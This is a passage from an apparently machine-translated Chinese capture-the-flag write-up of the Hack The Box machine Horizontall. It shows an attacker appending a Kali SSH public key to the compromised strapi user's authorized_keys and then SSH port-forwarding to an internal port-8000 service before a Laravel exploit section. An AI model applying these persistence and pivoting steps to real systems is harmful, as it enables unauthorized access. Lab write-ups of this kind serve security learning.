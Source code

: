 ```
|        ..  . . .|
|        o .  . . |
|     . . +    .  |
|     .E S .. .   |
|   o =+O..o o .  |
|  ..*+@o=+   o . |
|   ooB**o     .  |
|  ...=O+         |
+----[SHA256]-----+
```

获取公钥并创建一个 echo 语句，我们可以将它粘贴到机器上:

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg0PqOGRanCQeaQ8E<SNIP>
gYbDv/iV4j/BDTJCrtfwlbskA0qveVguz15rTc09Fr4NE= root@kali" 
>> authorized_keys
```

这只是将 id_rsa.pub 文件的内容回显到一个名为 authorized_keys 的文件中。将此复制到剪贴板，然后切换回框:

```
strapi@horizontall:~$ cd .ssh/
strapi@horizontall:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg0PqOGRanCQeaQ8E<SNIP>
gYbDv/iV4j/BDTJCrtfwlbskA0qveVguz15rTc09Fr4NE= root@kali" 
>> authorized_keys
```

使用机器上 authorized_keys 文件中 Kali 的公钥，我们现在可以在用户 strapi 设置端口转发的同时进行 SSH:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# ssh -i id_rsa -L 8000:localhost:8000 strapi@10.10.11.105

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
Last login: Thu Sep 30 19:55:29 2021 from 10.10.14.210
$
```

# 拉勒韦尔漏洞利用

上面的命令只是说，在端口 8000 上本地接收的任何流量都通过 SSH 转发到端口 8000 上的 box。现在，我们可以使用 Kali 上的本地浏览器访问盒子上的网站:
